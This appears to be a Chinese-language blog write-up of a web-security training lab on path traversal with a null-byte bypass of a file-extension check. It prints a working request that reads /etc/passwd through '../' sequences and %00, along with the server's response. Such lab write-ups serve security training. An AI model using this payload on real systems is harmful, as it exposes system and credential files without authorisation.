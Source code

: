 #### Lab: File path traversal, validation of file extension with null byte bypass

题意：这次验证的是文件后缀，必须以图片文件后缀结尾。

默认使用 `GET /image?filename=38.png HTTP/2` 文件名和后缀获取文件。只有通过 %00 才能绕过

```plaintext
GET /image?filename=./../../../etc/passwd%00.jpg HTTP/2
Host: 0a0a005a047b581284437d3100a600db.web-security-academy.net
Cookie: session=Jsb5FL3Bs6TL57AAUTlyBdzeLEeeQRTQ
Sec-Ch-Ua: "Microsoft Edge";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Dnt: 1
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36 Edg/117.0.2045.47
Sec-Ch-Ua-Platform: "Windows"
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0a0a005a047b581284437d3100a600db.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
......
```

因此 %00 还是有必要尝试一下的。

## 参考资料

-   [Interaction-File-URL.pptx](https://www.raingray.com/usr/uploads/2023/06/2258492044.pptx)

最近更新：2023 年 10 月 07 日 17:00:05

发布时间：2022 年 01 月 25 日 22:22:00
